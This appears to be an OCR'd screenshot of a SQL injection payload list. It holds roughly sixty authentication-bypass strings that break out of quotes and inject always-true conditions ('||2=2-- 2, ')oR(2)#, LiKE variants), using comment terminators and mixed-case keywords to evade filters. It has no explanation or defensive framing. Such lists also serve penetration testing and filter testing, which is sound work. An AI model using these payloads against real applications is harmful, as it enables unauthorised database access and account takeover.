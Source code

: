 ```
'||'2'='2
'||'2'='2'||'
'||2=2-- 2
'||2=2#
'||2=2/*
'||2=2||'
"||"2"="2
"||"2"="2"||"
"||2=2-- 2
"||2=2#
"||2=2/*
"||2=2||"
'||2=(2)LimIT(1)-- 2
'||2=(2)LimIT(1)#
'||2=(2)LimIT(1)/*
"||2=(2)LimIT(1)-- 2
"||2=(2)LimIT(1)#
"||2=(2)LimIT(1)/*
'||true-- 2
'||true#
'||true/*
'||true||'
"||true-- 2
"||true#
"||true/*
"||true||"
'||'2'LiKE'2
'||'2'LiKE'2'-- 2
'||'2'LiKE'2'#
'||'2'LiKE'2'/*
'||'2'LiKE'2'||'
'||(2)LiKE(2)-- 2
'||(2)LiKE(2)#
'||(2)LiKE(2)/*
'||(2)LiKE(2)||'
"||"2"LiKE"2
"||"2"LiKE"2"-- 2
"||"2"LiKE"2"#
"||"2"LiKE"2"/*
"||"2"LiKE"2"||"
"||(2)LiKE(2)-- 2
"||(2)LiKE(2)#
"||(2)LiKE(2)/*
"||(2)LiKE(2)||"
')oR('2
')oR'2'-- 2
')oR'2'#
')oR'2'/*
')oR'2'oR('
')oR(2)-- 2
')oR(2)#
')oR(2)/*
')oR(2)oR('
')oR 2-- 2
')oR 2#
')oR 2/*
')oR 2 oR('
')oR/**/2-- 2
')oR/**/2#
')oR/**/2/*
')oR/**/2/**/oR('
")oR("2
")oR"2"-- 2
```